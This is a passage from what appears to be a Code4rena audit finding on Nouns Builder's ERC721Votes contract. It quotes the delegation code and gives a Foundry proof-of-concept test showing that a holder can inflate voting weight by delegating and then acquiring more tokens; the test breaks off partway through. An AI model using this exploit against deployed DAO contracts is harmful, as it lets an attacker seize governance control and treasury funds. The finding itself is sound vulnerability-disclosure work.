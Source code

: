 <https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268>

        function _afterTokenTransfer(
            address _from,
            address _to,
            uint256 _tokenId
        ) internal override {
            // Transfer 1 vote from the sender to the recipient
            _moveDelegateVotes(_from, _to, 1);

            super._afterTokenTransfer(_from, _to, _tokenId);
        }

<https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L216>

        _moveDelegateVotes(prevDelegate, _to, balanceOf(_from));
        ...
        unchecked {
                    ...
                    // Update their voting weight
                    _writeCheckpoint(_from, nCheckpoints, prevTotalVotes, prevTotalVotes - _amount);
                }

During delegation `balanceOf(from)` amount of votes transferred are to the `_to` address

        function test_UserCanGetUnlimitedVotes() public {

            vm.prank(founder);
            auction.unpause();

            vm.prank(bidder1);
            auction.createBid{ value: 1 ether }(2);

            vm.warp(10 minutes + 1 seconds);

            auction.settleCurrentAndCreateNewAuction();
            
            assertEq(token.ownerOf(2), bidder1);

            console.log(token.getVotes(bidder1)); // 1
            console.log(token.delegates(bidder1)); // 0 bidder1

            vm.prank(bidder1);
            token.delegate(bidder2);

            console.log(token.getVotes(bidder1)); // 1
            console.log(token.getVotes(bidder2)); // 1

            vm.prank(bidder1);
            auction.createBid{value: 1 ether}(3);

            vm.warp(22 minutes);

            auction.settleCurrentAndCreateNewAuction();

            assertEq(token.ownerOf(3), bidder1);

            console.log(token.balanceOf(bidder1)); // 2
            console.log(token.getVotes(bidder1)); // 2
            console.log(token.getVotes(bidder2)); // 1
